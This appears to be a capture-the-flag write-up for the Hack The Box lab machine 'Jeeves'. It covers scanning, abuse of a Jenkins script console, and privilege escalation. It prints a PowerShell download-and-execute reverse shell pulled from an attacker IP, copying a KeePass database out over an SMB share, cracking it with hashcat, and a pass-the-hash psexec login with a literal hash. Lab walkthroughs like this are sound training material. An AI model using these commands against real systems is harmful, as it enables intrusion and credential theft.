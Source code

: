 # Jeeves Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA jeeves 10.10.10.63 -T4``

``80/tcp    open  http         Microsoft IIS httpd 10.0``

``135/tcp   open  msrpc        Microsoft Windows RPC``

``445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)``

``50000/tcp open  http         Jetty 9.4.z-SNAPSHOT``

# ${{\color{purple}Initial Foothold}}\ $

### After a long enumeration I found a directory on the port 50000 :

``gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30``

![image](https://user-images.githubusercontent.com/123066149/221349079-693bf87d-ce77-42a4-9202-9c5870f16c3b.png)

### And finally it's a jenkins server on this port :

### I made the following compromise after a long enumeration of the application :

![1](https://user-images.githubusercontent.com/123066149/221349399-6e26767c-4b25-4c35-8bb4-4c6790419b08.PNG)

![2](https://user-images.githubusercontent.com/123066149/221349403-c52a5a33-8b6b-424e-b505-3799e021f3e7.PNG)

![3](https://user-images.githubusercontent.com/123066149/221349405-39f5cdac-29cd-4fad-b038-cc229889d3db.PNG)

![4](https://user-images.githubusercontent.com/123066149/221349410-be77cc48-4028-4243-be5c-6ddf64e313ee.PNG)

# ${{\color{purple}Exploitation}}\ $

### I used a rev shell powershell to take control of the server :

``println "powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')".execute().text``

![image](https://user-images.githubusercontent.com/123066149/221349919-b08817a5-18a0-4eb7-8b91-e40a7951a69f.png)

![image](https://user-images.githubusercontent.com/123066149/221349939-b89184b9-59e7-4359-b400-dd4c66c8d1a4.png)

# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/221349980-62a6e845-6120-4764-a519-f86357e2cfe2.png)

### SMBserver on kali machine :

``/usr/bin/impacket-smbserver kali .``

![image](https://user-images.githubusercontent.com/123066149/221350050-1069ded2-46ff-4bf3-8532-6e21b7196467.png)

### mount share on windows machine :

``New-PSDrive -Name "sophie" -PSProvider "FileSystem" -Root "\\10.10.16.5\kali"``

``cd sophie:``

``cp C:\Users\kohsuke\Documents\CEH.kdbx .``

![5](https://user-images.githubusercontent.com/123066149/221350106-9358a2d7-d76f-4c1d-ade3-b3dd7849ad1d.PNG)

### Generate the hash of this file :

``keepass2john CEH.kdbx``

![image](https://user-images.githubusercontent.com/123066149/221350158-dcc7110f-8e0c-4e31-afea-ded436ef0ae5.png)

![image](https://user-images.githubusercontent.com/123066149/221350172-25786dd9-2d05-4cba-84c5-b8a39a82847f.png)

![image](https://user-images.githubusercontent.com/123066149/221350203-affa1903-fc80-47cf-bfa3-ae865ec83c7f.png)

### Finds the password with hashcat :

``hashcat -m 13400 hash.txt /usr/share/wordlists/rockyou.txt``

![image](https://user-images.githubusercontent.com/123066149/221350242-2a736320-afce-4401-a245-bd09e1496b46.png)

### Open the kdbx file with keepass :

![image](https://user-images.githubusercontent.com/123066149/221350296-925eda47-478c-48a4-a404-97f263246747.png)

### I tried the admin password but without success and with the hash of the backup account and we are admin :

``/usr/bin/impacket-psexec  administrator@10.10.10.63``

``/usr/bin/impacket-psexec  administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``

![image](https://user-images.githubusercontent.com/123066149/221350360-0b5fb083-eb17-4532-892c-511109165051.png)


### Last difficulty display the root password  :

``powershell (Get-Content hm.txt -Stream root.txt)``

![image](https://user-images.githubusercontent.com/123066149/221350462-3f880fc4-b85d-430d-a022-c93609025ea5.png)


# ${{\color{purple}Points of Improvement}}\ $

